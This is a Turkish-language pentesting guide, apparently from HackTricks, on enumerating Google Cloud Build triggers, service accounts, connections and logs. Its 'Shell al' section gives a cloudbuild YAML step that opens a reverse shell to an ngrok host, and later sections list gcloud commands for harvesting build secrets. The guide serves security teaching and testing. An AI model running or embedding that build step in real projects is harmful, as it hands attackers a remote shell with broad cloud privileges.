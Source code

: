 # GCP - Cloud Build Enum

{{#include ../../../banners/hacktricks-training.md}}

## Temel Bilgiler

Google Cloud Build, **yazılım derleme** ve dağıtım süreçlerini otomatikleştiren yönetilen bir CI/CD platformudur, **kaynak kodu depoları** ile entegre olur ve geniş bir programlama dili yelpazesini destekler. **Geliştiricilerin kodu otomatik olarak derlemesine, test etmesine ve dağıtmasına** olanak tanırken, derleme adımlarını ve iş akışlarını özelleştirme esnekliği sağlar.

Her Cloud Build Tetikleyicisi, **bir Cloud Repository ile ilişkilidir veya doğrudan bir dış depo ile bağlantılıdır** (Github, Bitbucket ve Gitlab).

> [!TIP]
> Buradan veya Cloud Repositories'ten Github/Bitbucket token'ını çalmanın bir yolunu göremedim çünkü repo indirildiğinde [https://source.cloud.google.com/](https://source.cloud.google.com/) URL'si üzerinden erişiliyor ve Github istemci tarafından erişilmiyor.

### Olaylar

Cloud Build, aşağıdaki durumlarda tetiklenebilir:

- **Bir dala push:** Dalı belirtin
- **Yeni bir etiket push:** Etiketi belirtin
- **Pull request:** PR'yi alan dalı belirtin
- **Manuel İkame**
- **Pub/Sub mesajı:** Konuyu belirtin
- **Webhook olayı:** HTTPS URL'si açığa çıkaracak ve istek bir gizli anahtar ile kimlik doğrulaması yapılmalıdır

### İcra

3 seçenek vardır:

- İcra edilecek **komutları belirten bir yaml/json.** Genellikle: `/cloudbuild.yaml`
- Web konsolunda ve cli'de "inline" olarak belirtilebilecek tek seçenek
- En yaygın seçenek
- Kimlik doğrulaması yapılmamış erişim için ilgili
- Bir **Dockerfile** oluşturmak için
- Bir **Buildpack** oluşturmak için

### SA İzinleri

**Hizmet Hesabı `cloud-platform` kapsamına sahiptir**, bu nedenle **tüm ayrıcalıkları kullanabilir.** Eğer **hiçbir SA belirtilmezse** (örneğin, gönderim yaparken) **varsayılan SA** `<proj-number>@cloudbuild.gserviceaccount.com` **kullanılacaktır.**

Varsayılan olarak hiçbir izin verilmez ama bazılarını vermek oldukça kolaydır:

<figure><img src="../../../images/image (16).png" alt=""><figcaption></figcaption></figure>

### Onaylar

Bir Cloud Build'in **derleme icraları için onay gerektirecek şekilde yapılandırılması** mümkündür (varsayılan olarak devre dışı).

### PR Onayları

Tetikleyici PR olduğunda, çünkü **herkes kamu depolarına PR yapabilir**, herhangi bir PR ile tetikleyicinin icrasına **izin vermek çok tehlikeli** olur. Bu nedenle, varsayılan olarak, icra yalnızca **sahipler ve işbirlikçiler için otomatik** olacaktır ve diğer kullanıcıların PR'leri ile tetikleyiciyi icra etmek için bir sahip veya işbirlikçi `/gcbrun` yorumunu yapmalıdır.

<figure><img src="../../../images/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### Bağlantılar & Depolar

Bağlantılar aşağıdakiler üzerinden oluşturulabilir:

- **GitHub:** **Github token'ı almak için izin isteyen bir OAuth istemi** gösterecektir ve bu token **Secret Manager** içinde saklanacaktır.
- **GitHub Enterprise:** Bir **GithubApp** yüklemesi istenecektir. GitHub Enterprise sunucunuzdan bir **kimlik doğrulama token'ı** oluşturulacak ve bu proje içinde bir **Secret Manager** sırrı olarak saklanacaktır.
- **GitLab / Enterprise:** **API erişim token'ını ve Okuma API erişim token'ını** sağlamanız gerekecektir, bu token **Secret Manager** içinde saklanacaktır.

Bir bağlantı oluşturulduğunda, bunu **Github hesabının erişim sağladığı depoları bağlamak için** kullanabilirsiniz.

Bu seçenek aşağıdaki buton aracılığıyla mevcuttur:

<figure><img src="../../../images/image (17).png" alt=""><figcaption></figcaption></figure>

> [!TIP]
> Bu yöntemle bağlantılı depolar **yalnızca 2. nesil Tetikleyicilerde mevcuttur.**

### Bir Depoyu Bağla

Bu, bir **`bağlantı`** ile aynı değildir. Bu, **Github veya Bitbucket** deposuna erişim sağlamak için **farklı** yollar sunar ancak **bir bağlantı nesnesi oluşturmaz, ancak bir depo nesnesi (1. nesil) oluşturur.**

Bu seçenek aşağıdaki buton aracılığıyla mevcuttur:

<figure><img src="../../../images/image (18).png" alt=""><figcaption></figcaption></figure>

### Depolama

Bazen Cloud Build, **tetikleyici için dosyaları saklamak üzere yeni bir depolama alanı oluşturacaktır.** Bu, örneğin GCP'nin sunduğu örnekte olduğu gibi gerçekleşir:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Bir `.tgz` dosyasını depolamak için [security-devbox_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false&project=security-devbox) adlı bir Depolama kovası oluşturulmuştur.

### Shell al
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Gcloud'u cloud build içinde kurun:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeration

Build yapılandırmalarında ve günlüklerde **hassas bilgiler bulabilirsiniz**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Yetki Yükseltme

{{#ref}}
../gcp-privilege-escalation/gcp-cloudbuild-privesc.md
{{#endref}}

### Kimlik Doğrulaması Olmadan Erişim

{{#ref}}
../gcp-unauthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md
{{#endref}}

### Sömürü Sonrası

{{#ref}}
../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}

